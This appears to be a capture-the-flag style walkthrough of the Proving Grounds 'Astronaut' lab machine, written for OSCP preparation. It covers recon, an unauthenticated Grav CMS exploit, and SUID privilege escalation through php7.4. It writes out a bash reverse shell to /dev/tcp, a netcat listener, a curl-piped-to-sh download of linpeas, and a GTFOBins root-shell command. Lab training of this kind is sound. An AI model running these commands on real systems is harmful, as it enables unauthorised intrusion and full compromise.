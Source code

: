 ```yaml
---
title: Astronaut
date: 2023-12-15
tags:
  - OSCP
  - PG Practice
  - TJ Null
  - Linux
  - Easy
---
```


![info](./info.png)

# Recon
![info-comm](./info-comm.png)
This machine has a Linux OS and is rated intermediate by the community.

Remember to make an entry for the IP in `/etc/hosts` file. My entry looks like:
```
192.168.188.12  astronaut.offsec
```
## Nmap
``` bash
nmap -p- --open -sC -sV astronaut.offsec
```
- `-p-`: Scans all 65535 ports on the target system. The hyphen signifies scanning all possible ports.
- `--open`: Displays only open ports, indicating which services are active and accessible.
- `-sC`: Performs default script scanning, which runs a set of scripts to gather additional information about the target.
- `-sV`: Enables version detection, providing information about the versions of services running on open ports.
![nmap](./nmap.png)

The nmap scan discovered a volume with `grav-admin` folder.
- Browsing to this folder in the browser `http://astronaut.offsec/grav-admin/` shows a default installation page

## Gobuster
``` bash
gobuster dir -u astronaut.offsec/grav-admin/ -w /usr/share/seclists/Discovery/Web-Content/common.txt 
```
![gobuster](./gobuster.png)
The gobuster scan found an admin panel at `/admin/` and many other endpoints.

## Searchsploit
As the website is built with grav, we can search for known exploits using searchsploit.
``` bash
searchsploit grav
``` 
![searchsploit](./searchsploit.png)
I  like to look at python scripts first, so the first script I will look at is the Arbitrary YAML Write/Update script as that one is **unauthenticated**.

### Arbitrary YAML Write/Update
First, download the unauthenticated script by using `searchsploit -m php/webapps/49973.py`
- looking at the code, we can see that the target is set to a variable
- change this target to `http://astronaut.offsec/grav-admin`
  - this is because the URL `http://astronaut.offsec` only has a directory named grav-admin, so we must specify that directory for the exploit
- the script says to run the following command and replace the output with the base64 encoded value in the script
![scriptChange](./scriptChange.png)

For the command, you will need to replace the IP and port to the listening host (Kali IP and Port)
- I will be using the command `nc -lnvp 4444` to start a listener on my kali host with IP `192.168.45.220`
- So, the command I will run is `echo -ne "bash -i >& /dev/tcp/192.168.45.220/4444 0>&1" | base64 -w0`
- then, replace the contents in the designated `base64_decode()` function

Start a netcat listener and run the script using `python3 49973.py`
- after a couple seconds, a shell is generated with the user
![shell](./shell.png)

# Privilege Escalation
## Manual commands
``` bash
find / -type f -perm -4001 -exec ls -h {} \; 2> /dev/null
```

### Explanation:
`find / -type f -perm -4001`:
find: Initiates the find command for searching files and directories.
`/`: Specifies the starting directory for the search (root directory in this case).
`-type f`: Specifies that only files (not directories) should be considered in the search.
`-perm -4001`: Searches for files with the SUID bit set. The SUID bit, when set, allows a file to be executed with the permissions of its owner.

`-exec ls -h {} \;`:
`-exec`: Executes a command for each matched file.
`ls -h {}`: Uses the `ls` command to list information about the found files. The `-h` option is used to make file sizes more human-readable. The `{}` are replaced by the matched file for each iteration.
`\;`: Marks the end of the -exec command.

`2> /dev/null`:
`2>`: Redirects standard error (stderr) to a specified location.
`/dev/null`: A special file in Unix-like operating systems that discards any data written to it.

![manual-enum](./manual-enum.png)

## Linpeas
To assess the attack surface further, run `linpeas.sh` on the target:
- run a python http server in the directory with the `linpeas.sh` file with `python3 -m http.server 80`
- then use the `curl` command with `sh` to run the script on the target machine
- the IP specified is downloading from my Kali host
``` bash
curl http://192.168.45.220/linpeas.sh | sh
```

### Linpeas Results
The linpeas results showed php7.4 binary file in the directory `/usr/bin/php7.4` that does has an unknown SUID binary. The output is shown below
```
-rwsr-xr-x 1 root root 4.6M Feb 23  2023 /usr/bin/php7.4 (Unknown SUID binary!)
```

We can confirm these findings with the manual enumeration commands we used. We did indeed find a php7.4 file.
- Using this information we can try to find privilege escalation for SUID in [GTFOBins](https://gtfobins.github.io/gtfobins/php/)

GTFOBins uses the following command
``` bash
./php -r "pcntl_exec('/bin/sh', ['-p']);"
```

In order for this command to fit our context, we would change the running script to 
``` bash
/usr/bin/php7.4 -r "pcntl_exec('/bin/sh', ['-p']);"
```
- the flag is located in the `/root` folder

# Summary
The "Astronaut" box in Proving Grounds Practice involves a comprehensive penetration testing approach. 
Initial reconnaissance using Nmap uncovers a Grav CMS installation with potential vulnerabilities. 
Gobuster identifies an admin panel, while Searchsploit yields an unauthenticated YAML Write/Update script which needs to be adapted. 
Manual enumeration reveals files with the SUID bit set, further explored with LinPEAS, confirming an unknown SUID binary, `/usr/bin/php7.4`. 
Exploiting this binary using GTFOBins facilitates privilege escalation, granting access to the /root folder where the flag is found. 
This walkthrough provides practical insights into various stages of a penetration test, offering a valuable learning experience for OSCP preparation.

Join me for the next machine soon for more exciting challenges and security insights!

+10 points

